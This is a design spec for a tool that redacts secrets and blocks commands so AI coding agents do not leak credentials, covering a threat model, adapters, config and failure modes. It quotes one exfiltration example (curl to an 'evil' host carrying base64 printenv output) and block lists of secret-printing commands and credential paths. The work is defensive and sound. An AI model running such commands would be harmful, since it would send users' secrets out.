

# Spec

_Draft 2026-10-29 UTC, from grilling sessions. Terms are defined in `CONTEXT.md`._

## Threat model

- **In scope: accidental leaks.** A well-meaning agent prints secrets: `env`, `cat .env`, `forge -vvvv`, `mise env`, debug logs.
- **Out of scope: a hostile or prompt-injected agent.** For example `curl evil?k=$(printenv | base64)` runs before any output is redacted, and encoding defeats exact matching. Defending against that needs agents not inheriting secrets, `varlock proxy`, or a sandbox. Never present this tool as protection against it.

## Decisions

| #   | Decision                                                                                                                                                                                       | Why                                                                                                                                                                                                                                     |
| --- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| D1  | Defend against accidental leaks only                                                                                                                                                           | Matches past incidents. Redaction can't stop deliberate exfiltration                                                                                                                                                                    |
| D2  | pi gets redaction and blocks. Claude Code gets a `PreToolUse` hook for **blocks only**                                                                                                         | CC issue #54196: `updatedToolOutput` is ignored for Bash. CC also writes raw `toolUseResult` to its JSONL before hooks run                                                                                                              |
| D3  | Secret sources are pluggable adapters (see below)                                                                                                                                              | Supports mise, 1Password, pa, or any secret manager without hard-coding                                                                                                                                                                 |
| D4  | Exact values plus vendor prefixes (`sk-ant-`, `ghp_`, `github_pat_`, `AKIA`, `xox[bp]-`). **No** generic 64-hex, entropy or keyword rules                                                      | Web3 repos: tx hashes, addresses and storage slots must survive. pi-secret-safe fails exactly here                                                                                                                                      |
| D5  | Fail-closed, scoped. A required source that fails in a repo where it applies puts the session in degraded state. Elsewhere: warn. `/motus continue` accepts partial protection for the session | Never silently unprotected; no nagging in unrelated repos                                                                                                                                                                               |
| D6  | No `/motus off`                                                                                                                                                                                | Turning redaction off means sending secrets to the model. Read values in your own terminal                                                                                                                                              |
| D7  | Placeholder `[REDACTED:NAME]`                                                                                                                                                                  | The model can still reason about which variable was there; names aren't secret                                                                                                                                                          |
| D8  | Block credential files by path; never parse them                                                                                                                                               | The agent never needs them. A leaked age master key exposes everything encrypted with it                                                                                                                                                |
| D9  | Block secret-manager CLIs that print values (`pa show`, `gh auth token`, `op read`, …), configurable                                                                                           | 759 pa entries can't be pre-loaded for exact-match redaction                                                                                                                                                                            |
| D10 | Blocks can't be lifted from inside pi                                                                                                                                                          | Safety decisions belong to the human, outside the agent                                                                                                                                                                                 |
| D11 | One shared config file, `~/.config/motus/config.json`, and one npm package. The CC hook is a second `bin` (`motus-cc-hook`) importing the same blocklist core                                  | One list to maintain, one blocklist implementation to test                                                                                                                                                                              |
| D12 | Build our own; borrow MIT code with credit                                                                                                                                                     | See `research/oss-survey.md`: no fork base (the closest one has no public repo and redacts `0x` addresses)                                                                                                                              |
| D13 | Own repo; publish to npm later                                                                                                                                                                 | Testable, creditable, and the gap is real (fail-closed, command sources, web3-safe defaults)                                                                                                                                            |
| D14 | Don't strip secrets from `process.env`. Child processes keep inheriting them                                                                                                                   | Stripping breaks tools that need them (`forge` RPC URLs). Redaction covers accidental leaks; removing inheritance is the hostile-agent fix                                                                                              |
| D15 | Every string in every persisted or provider-bound structure is redacted, not chosen fields                                                                                                     | pi persists tool-result `details` (edit `diff`/`patch` carry file context) and tool-call args. Field lists rot                                                                                                                          |
| D16 | `!cmd` and `!!cmd` get blocks and redaction                                                                                                                                                    | pi writes `bashExecution` output (even `!!`) to the session JSONL without `message_end`. The human reads raw values in their own terminal                                                                                               |
| D17 | Block `write`, `edit` and `bash` input containing `[REDACTED:<name>]` for a loaded secret name                                                                                                 | Otherwise the model writes placeholders over real secrets on disk, or commits them                                                                                                                                                      |
| D18 | Degraded state blocks every tool except a configurable allowlist (empty by default)                                                                                                            | Any tool output can carry secrets: grep, find, edit diffs, codemode, subagents, MCP                                                                                                                                                     |
| D19 | Block only what redaction can't cover. pi blocks `blockCommands`; CC additionally blocks `claudeCode.blockCommands` (`env`, `printenv`, `mise env`, `cat .env*`)                               | pi redacts loaded values, so blocking `mise env` there only costs usability. CC has no redaction                                                                                                                                        |
| D20 | v1 adapters: `env`, `command`, `mise`. `pa` and `1password` adapters are on the roadmap: blocks by default, startup loading opt-in per entry or per store                                      | Lazy loading is impossible (matching needs the value). A YubiKey-keyed store costs a PIN and a touch at startup, through a terminal the pi TUI owns. A TPM-keyed store (`age-plugin-tpm`) decrypts with no prompt, so it can load whole |
| D21 | Install globally and load first. Documented, not enforced                                                                                                                                      | Handlers run in load order, so earlier extensions see raw events. Subagent pi processes only load global extensions. pi exposes no handler order to check                                                                               |

## Architecture



### pi events

| Event                     | Job                                                                                                                                                                       |
| ------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `session_start`           | Load sources into memory. Set degraded state. Notify counts, never values                                                                                                 |
| `tool_call`               | Block paths, commands (see Blocking) and placeholders for loaded names in `write`/`edit`/`bash` input (D17). While degraded, block every tool not in `degradedAllowTools` |
| `tool_result`             | Redact every string in `content`, `structuredContent` and `details`. Return all three (replacing `content` alone drops `structuredContent`)                               |
| `message_end`             | Redact every string of the finalized message, any role, including tool-call args and custom messages                                                                      |
| `input`                   | Redact secrets pasted into prompts before they're saved                                                                                                                   |
| `user_bash`               | Apply blocks. Otherwise run the command with `createLocalBashOperations`, redact the full output and return `result`. No live streaming for `!` commands                  |
| `before_provider_request` | Walk the parsed payload and redact each string (never the serialized JSON). On internal error, send an empty payload rather than raw (pattern from `pi-redact`)           |

Verified in pi 1.4.0 source: `tool_result` changes reach the `toolResult` message that `message_end` persists, and memsearch reads persisted entries. `tool_execution_update` streaming and bash's truncation temp file (`/tmp/pi-bash-*`) hold raw output locally; acceptable, since neither reaches the model unredacted.

### Matching

- Exact values, longest first, with a minimum length of 8. Shorter values are ignored, with a warning that names the key.
- Derived forms are generated in the core, not the adapters:
  - hex with and without `0x`
  - lowercase and uppercase hex variants
  - the userinfo and path parts of URLs (Alchemy/dRPC RPC URLs carry the key in the path)
  - percent-encoded values (`DATABASE_URL` passwords with `@`, `/`, `+`)
- JSON escaping is handled by walking strings, not by derived forms.
- Not covered: base64, split or partial values.
- Vendor prefixes catch keys that were never loaded.

### Blocking

- Commands: the word at command position at the start and after `|`, `;`, `&&`, `||`, `$(`, backtick, `(`. Skip wrappers `env VAR=x`, `sudo`, `command`, `exec`, `time`, `nohup`, `xargs`. Recurse into `bash|sh|zsh -c '…'` and `eval`. Hand-rolled tokenizer, no dependency.
- Not covered: scripts, aliases, shell functions.
- Paths: config entries are expanded (`~`, `$HOME`, env vars, `${VAR:-fallback}`) and resolved with `realpath` at load. A directory entry blocks everything beneath it. An unset variable without a fallback is invalid config (D5), never a skipped entry.
  - Path-taking tools (`read`, `grep`, `find`, `ls`, `edit`, `write`, MCP filesystem tools): resolve the argument against `ctx.cwd`, then compare.
  - Bash: block when the command contains the absolute, `~/` or `$HOME/` spelling.
  - Not covered: `cd dir && cat file`.

## Source adapters (D3)

```ts
interface SecretSource {
  id: string
  appliesTo(ctx: { cwd: string }): Promise<boolean>
  load(ctx: { cwd: string; signal: AbortSignal }): Promise<Secret[]>
}

interface Secret {
  name: string
  value: string
  source: string
}
```

- `load` **throws** on failure. Never return an empty list for an error (the bug in `pi-fnox`).
- `appliesTo` drives D5. A failing required source blocks only where it applies. Example: mise applies when the cwd has an age-encrypted config.
- Adapters return secrets. The core owns derived forms, matching and policy.
- Each source config has `required: boolean` (default `true`), a timeout (default 10 s) and adapter options.

| Adapter     | Release | Loads                                                                                                                                                                               | Notes                                                                                                                                                                                                                   |
| ----------- | ------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `env`       | v1      | `process.env` whose names match `KEY\|TOKEN\|SECRET\|PASS\|PRIVATE\|MNEMONIC\|DATABASE_URL\|AUTH\|CREDENTIAL\|DSN`, with a name denylist (e.g. `SSH_AUTH_SOCK`, `KITTY_PUBLIC_KEY`) | Always on and can't fail                                                                                                                                                                                                |
| `command`   | v1      | Any command printing `{NAME: value}` JSON on stdout. Non-zero exit = failure                                                                                                        | Generic fallback for any manager                                                                                                                                                                                        |
| `mise`      | v1      | For each listed config plus the cwd: keys stored as `{ age = ... }`, decrypted with `mise env --json -C <dir>` (`MISE_ENV` for `config.<env>.toml`)                                 | Option: path to a list file (can reuse `~/.config/rotate-mise-secrets/files`). Warns when cwd age keys are missing from the list (drift)                                                                                |
| `pa`        | roadmap | Explicitly listed entries (`pa show <name>`), or every entry of a store marked `whole`. Option: store dir (`PA_DIR`). Multi-line entries yield one secret per line                  | YubiKey store: PIN once per card session, touch cached 15 s, so listed entries cost about 1 PIN and 1 touch. TPM store: no prompt. Default: blocks only (D9). Until then, a `command` source can load a no-prompt store |
| `1password` | roadmap | `op://` references from configured refs and/or env values that are references (`op read`), opt-in per entry                                                                         | Biometric/session prompt at startup                                                                                                                                                                                     |

Adapters are built in; split into packages only if a third party wants one.

## Config (`~/.config/motus/config.json`)

```json
{
  "sources": [
    { "type": "env" },
    { "type": "mise", "listFile": "~/.config/rotate-mise-secrets/files" }
  ],
  "prefixes": ["sk-ant-", "ghp_", "github_pat_", "AKIA", "xox[bp]-"],
  "blockPaths": [
    "~/.config/mise/age.txt",
    "${PA_DIR:-~/.local/share/pa}/identities",
    "~/.local/share/pa-machine/",
    "..."
  ],
  "blockCommands": ["pa", "pam", "gh auth token", "op read"],
  "degradedAllowTools": [],
  "minValueLength": 8,
  "claudeCode": {
    "blockCommands": ["env", "printenv", "mise env", "cat .env*"]
  }
}
```

- The pi extension reads everything except `claudeCode`.
- The CC hook reads `blockPaths`, `blockCommands` and `claudeCode.blockCommands`.
- Config never contains values. Validate on load; invalid config counts as a failed required source (D5).

## Failure modes

| Failure                                                     | Behavior                                                                                                                     |
| ----------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| Required source throws or times out, and applies to the cwd | Degraded state: block every tool not allowlisted, with a reason; `/motus continue` overrides for the session                 |
| Required source fails, doesn't apply to the cwd             | Warn once                                                                                                                    |
| One of N mise files fails to decrypt                        | Redact what loaded; name the failed file in the warning; degraded only if it covers the cwd                                  |
| Redaction hook throws                                       | `tool_result`, `user_bash`: replace output with an error marker, never raw. `before_provider_request`: send an empty payload |
| Invalid config                                              | Same as a failed required source                                                                                             |

## Claude Code hook (D2, D11, D19)

- `motus-cc-hook` bin: one `PreToolUse` command hook that reads the shared config and denies matching `Read` paths and `Bash` commands, using the same blocklist core as pi.
- Wire it with matcher `Read|Bash` and command `motus-cc-hook` in `~/.claude/settings.json`.
- Fail-closed: invalid config, bad input or a load error denies (JSON deny, or exit 2 from the shim). Exit 1 would let the tool run.
- The bin is a plain-JS shim that loads `src/cc-hook.ts` through `jiti`: Node refuses to strip types under `node_modules`.
- No redaction: #54196 was closed `NOT_PLANNED` on 2026-06-01, unfixed. Revisit if CC honors `updatedToolOutput` for Bash.

## Resolved questions

1. `pa` and 1Password: D20.
2. Implementation: TypeScript source loaded by pi through jiti, no build step; `node --test` with native type stripping (same as `pi-memsearch`).
3. Package: `@espadat-studio/motus` (repo `motus`; no `pi-` prefix since it serves pi and CC; `motus` is taken on npm). CC hook ships in it (D11).
4. Scrubbing old sessions with `geheim`: out of scope (leak audit 2026-10-29 found 0 of 68 values in stored sessions).
